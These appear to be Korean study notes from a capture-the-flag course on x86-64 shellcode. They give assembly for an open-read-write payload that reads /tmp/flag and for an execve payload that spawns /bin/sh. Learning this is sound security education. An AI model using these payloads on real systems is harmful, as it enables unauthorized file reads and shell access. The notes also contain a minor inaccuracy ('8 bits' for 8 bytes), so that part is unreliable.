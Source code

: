 # Shellcode

## 셸코드란?
- 상대 시스템을 공격(exploit)하기 위한 코드
- 기본적으로는 어셈블리 코드 조각을 말하나, pwntools를 통해 쉬운 익스플로잇이 가능함.

## orw 셸코드
orw셸코드: 파일을 열고 읽은 뒤 화면에 출력해주는 셸코드.
드림핵 강의에서는 "/tmp/" 에 있는 flag를 읽는 코드를 설명한다.

그걸 수도 코드로 나타내게 되면

```c
char buf[0x30];
int fd = open("/tmp/flag", RD_ONLY, NULL);
read(fd, buf, 0x30);
write(1, buf, 0x30);
```

orw 셸코드를 어셈블리로 작성하려면 syscall들을 알아야한다.
여기서는 read, write, open을 알면 된다.

### open
우선은 /tmp/flag 라는 문자열 자체를 메모리에 위치시켜야한다.

```bash
echo -n "/tmp/flag" | xxd -p | sed 's/../& /g' | awk '{for(i=NF;i>0;i--)printf $i;print ""}'
```
를 통해 16진수 리틀 앤디언으로 변경이 가능하다.


```bash
echo -n "/tmp/flag" | xxd -p | sed 's/../& /g' | awk '{for(i=NF;i>0;i--)printf $i;print ""}'

67616c662f706d742f
```
스택에는 8비트만 넣을 수 있어서 실제 16진수 값 전체를 넣어줄 수 없다.

```asm
push 0x67 ; 0x67을 먼저 push
mov rax, 0x616c662f706d742f
push rax ; 실제 값을 넣어줌
mov rdi, rsp
xor rsi, rsi ; rsi = 0, xor명령어-> 각 비트가 서로 다른 값일때만 1
xor rdx, rdx ; rdx = 0
mov rax, 2
syscall
```

### read
함수의 반환값은 rax로 들어온다. 따라서 open으로 얻은 /tmp/flag 은 rax에 저장된다. 이제 /tmp/flag을 읽어올(read) 차례다. read의 첫 번째 인자를 /tmp/flag으로 설정해야하므로 rax를 rdi에 대입한다.

```asm
mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0x0
syscall
```

### write

RDI: 목적지 주소 저장
write syscall.-> rax를 1로 설정

```asm
mov rdi, 1
mov rax, 0x1
syscall
```

위 코드를 모두 합치면 최종 orw 쉘코드가 된다.

## execve 셸코드
임의의 프로그램을 실행하는 셸코드이다.
따라서 execve 시스템 콜만으로 충분하다.

```asm
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall
```


